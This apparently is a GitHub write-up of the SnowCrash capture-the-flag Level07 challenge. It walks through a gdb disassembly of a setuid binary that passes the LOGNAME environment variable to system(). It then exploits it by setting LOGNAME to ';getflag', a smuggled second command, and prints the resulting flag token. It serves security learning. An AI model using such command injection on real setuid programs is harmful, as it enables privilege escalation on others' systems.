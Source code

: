 # SnowCrash

## Level07

```sh
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
```sh
level07@SnowCrash:~$ ./level07
level07
```

```sh
(gdb) disas main
Dump of assembler code for function main:
	...
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt> #Retrieve env variable 
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt> #Creating a string containing the command
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt> #Execute the command
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```

In x86 calling convention, function arguments are pushed onto the stack before calling the function
So we can now what is the value sent to getenv by checking $0x8048680,(%esp) since %esp represent the top of the stack and $0x8048680 represent the value stored into the stack that will be used by getenv

We can use the x command to check the value of 0x8048600 in order to retrieve the env variable name

```sh
(gdb) x 0x8048680
0x8048680:       "LOGNAME"
```

Let's try to change the value of LOGNAME in order to execute the getflag command

```
level07@SnowCrash:~$ export LOGNAME=";getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```